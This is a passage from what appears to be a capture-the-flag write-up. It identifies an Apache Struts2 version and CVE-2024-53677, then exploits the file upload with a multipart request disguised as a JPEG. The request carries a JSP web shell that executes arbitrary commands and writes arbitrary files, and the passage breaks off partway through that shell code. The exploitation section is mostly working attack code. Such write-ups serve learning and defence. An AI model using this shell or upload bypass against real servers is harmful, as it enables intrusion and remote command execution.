 Inside the `pom.xml` I found the current version of struts2:

![](Pasted%20image%2020250401102733.png)

## Weaponization

So I decided to perform a quick search on CVEs associated to this struts2 version and I found the following web associated to the [CVE-2024-53677](https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHESTRUTS-8496612).

*Affected versions of this package are vulnerable to Remote Code Execution (RCE) via manipulation of file upload parameters that enable path traversal. When using `FileUploadInterceptor`, uploading of a malicious file is possible, which may then be executed on the server.*

>[!Note]
>*This is only exploitable if the application uses `FileUploadInterceptor`;*

So I found the following [PoC](https://github.com/TAM-K592/CVE-2024-53677-S2-067.git)

![](Pasted%20image%2020250401103923.png)

## Exploitation

I'll capture the uploading action to modify it with CAIDO:

![](Pasted%20image%2020250401103913.png)

We have to take into account that the website only accepts PNG, JPG, JPEG and GIF, so I'll change the `filename` and the MIME Type to one of them.

Now I'll modify the content to upload a `.jsp` as the PoC says:

```shell
------WebKitFormBoundaryvvSfHjpRjxeufqTe
Content-Disposition: form-data; name="upload"; filename="test.jpg"
Content-Type: image/jpeg

ÿØÿà
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            // Execute system commands
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        } else if ("upload".equals(action)) {
            // File upload
            String filePath = request.getParameter("path");
            String fileContent = request.getParameter("content");
            if (filePath != null && fileContent != null) {
                File file = new File(filePath);
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(file))) {
                    writer.write(fileContent);
                }
```